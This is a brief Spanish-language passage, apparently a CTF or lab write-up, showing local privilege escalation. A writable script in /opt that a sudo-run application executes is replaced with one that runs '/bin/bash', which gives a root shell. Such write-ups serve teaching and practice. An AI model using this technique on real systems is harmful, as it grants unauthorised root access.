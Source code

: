 Info:
```
Welcome to the bash application!
Running command...
This is the bash script running.
```

Observamos que se está ejecutando un archivo en bash. Más tarde nos damos cuenta de que dicho archivo se encuentra en el directorio `/opt`.

Vamos a borrarlo y a crear uno nuevo con el mismo nombre.

```bash
rm bash.sh
nano bash.sh
```

```
#!/bin/bash
exec /bin/bash
```

Le damos permisos y lo ejecutamos.

```bash
chmod +x bash.sh
sudo /usr/local/bin/bash
```

Info:
```
Welcome to the bash application!
Running command...
root@a6526368dbcf:/opt# whoami
root
root@a6526368dbcf:/opt#
```

Ya somos root!